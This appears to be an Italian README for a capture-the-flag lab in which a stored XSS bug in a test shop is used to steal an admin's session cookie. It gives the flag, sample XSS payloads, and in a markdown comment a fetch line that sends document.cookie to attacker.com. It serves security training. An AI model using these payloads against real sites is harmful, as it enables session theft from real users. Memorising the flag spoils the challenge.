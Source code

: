 # Challenge: Stored XSS Exploit - Malicious Product Injection

## Descrizione
In questa challenge, hai accesso a un negozio online che permette di aggiungere nuovi prodotti e cercarli tramite un campo di ricerca.  
Tuttavia, il sistema non filtra correttamente gli input forniti dagli utenti, rendendolo vulnerabile a un attacco **Stored XSS (Cross-Site Scripting)**.  
Sfruttando questa vulnerabilità, potresti iniettare codice JavaScript dannoso che verrà eseguito ogni volta che un amministratore visita la pagina.

Sarà possibile eseguire codice malevolo nel browser dell'admin e ottenere il suo cookie di sessione?

## Obiettivo
- **Sfrutta la vulnerabilità Stored XSS** inserendo uno script malevolo nel nome, descrizione o immagine di un prodotto.
- **Attendi che l'admin visiti la pagina**, eseguendo il codice iniettato.
- **Recupera il cookie dell'admin** che contiene la flag `flag{you_changed_my_website??}`.

## Suggerimenti
- Il form di creazione dei prodotti accetta input arbitrari e li visualizza nella pagina senza sanitizzazione.
- Prova a inserire un payload come `<script>alert('XSS!')</script>` nel nome o nella descrizione di un prodotto..
- Ci sono dei siti come [Beeceptor](https://beeceptor.com/) che ti permettono di creare un server fittizio per ricevere i dati inviati con `fetch`.
- È possibile iniettare codice JavaScript anche nell'URL di un'immagine 

[//]: # (- Puoi anche provare a rubare il cookie dell'admin inviandolo a un tuo server con `<script>fetch('https://attacker.com/log?cookie='+encodeURIComponent(document.cookie))</script>`.)

[//]: # (, ad esempio `<img src=x onerror="alert('XSS!')">`.)

## Avviare il server:
```bash
docker pull ghcr.io/ax3lt/xss-ch2
docker run -p 80:80 ghcr.io/ax3lt/xss-ch2
```

Buona fortuna! 🚀🔓
